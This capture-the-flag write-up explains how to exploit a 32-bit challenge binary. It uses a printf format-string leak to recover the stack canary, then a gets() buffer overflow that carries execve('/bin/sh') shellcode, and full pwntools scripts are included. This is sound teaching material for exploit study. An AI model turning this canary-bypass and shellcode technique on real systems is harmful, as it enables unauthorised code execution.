







## ret2shell
### Architecture and protections
The binary is x32, with executable stack, but also with canary.



### Static analysis
`main()` leaks the address of the start of the input buffer at line 46, and has a vulnerable `gets()` at line 63, accessible by choosing option 3:



`Rename()`, accessible by choosing option 1, takes the input and stores it at the global variable `name`:



`Greeting()`, accessible by choosing option 2, has a vulnerable `printf()` at line 12 which prints the global variable `name`:



### Exploit planning
1. Use the looping feature to repeatedly set `name` (option 1) to the form `%i$p`, where `i` is a positive integer, then leak diffent stack values via `printf()` (option 2), until the `i` that leaks the canary is found.
2. Perform buffer overflow via `gets()` (option 3), with the shellcode as the main content, the leaked address as the return address, and also overwriting the canary with itself to prevent detection of stack smashing.

### Exploit crafting
In x32, the canary is 4 bytes long, seems random, and when printed using the below method, the last 2 hex digits should be `00`.

Fuzzing the canary:
```python
from pwn import *

def print_info(msg):
    print("[\033[1;34m*\033[0m] " + f"{msg}")

elf = context.binary = ELF("./CANUSAYHELLO", checksec=False)
context.log_level = "error"

p = process()

for i in range(1,16):
    p.sendline(b"1")
    p.sendline(f"%{i}$p".encode())
    p.sendline(b"2")
    p.recvuntil(b"Hello ")
    leak = p.recvline().decode().strip()
    print_info(f"{i} : {leak}")
```



Finding the pad length required:



In this program, `local_2c` is the input buffer, while `local_c` is the canary. Therefore the padding until the canary is `0x2c - 0xc = 0x20 = 32`. However, the actual padding bytes will be fewer as part of the buffer is occupied by shellcode:

```
[shellcode][padding][canary ][padding][return address]
[local_2c          ][local_c][local_8][return address]
```

### Exploit code
```python
from pwn import *

def print_success(msg):
    print("[\033[1;92m+\033[0m] " + f"{msg}")

elf = context.binary = ELF("./CANUSAYHELLO", checksec=False)
context.log_level = "error"

p = process()

buffer = int(p.recvline().strip().split(b" ")[-1], 16)
print_success(f"buffer : {hex(buffer)}")

p.sendline(b"1")
p.sendline(b"%p")
p.sendline(b"2")
p.recvuntil(b"Hello ")
canary = int(p.recvline().strip(), 16)
print_success(f"canary : {hex(canary)}")

shellcode = asm("""
    xor ecx, ecx
    mul ecx
    push eax
    push 0x68732f2f
    push 0x6e69622f
    mov ebx, esp
    mov al, 0xb
    int 0x80
""")

pad_length = 32 - len(shellcode)
assert pad_length > 0, "Shellcode too large!"
print_success(f"shellcode : {len(shellcode)} bytes")

payload = flat(
    shellcode,
    pad_length * b'A',
    canary,
    8 * b'B',
    buffer
)

p.sendline(b"3")
p.sendline(payload)
sleep(0.1)
p.sendline(b"cat flag.txt")
p.interactive()
```

### Exploit success

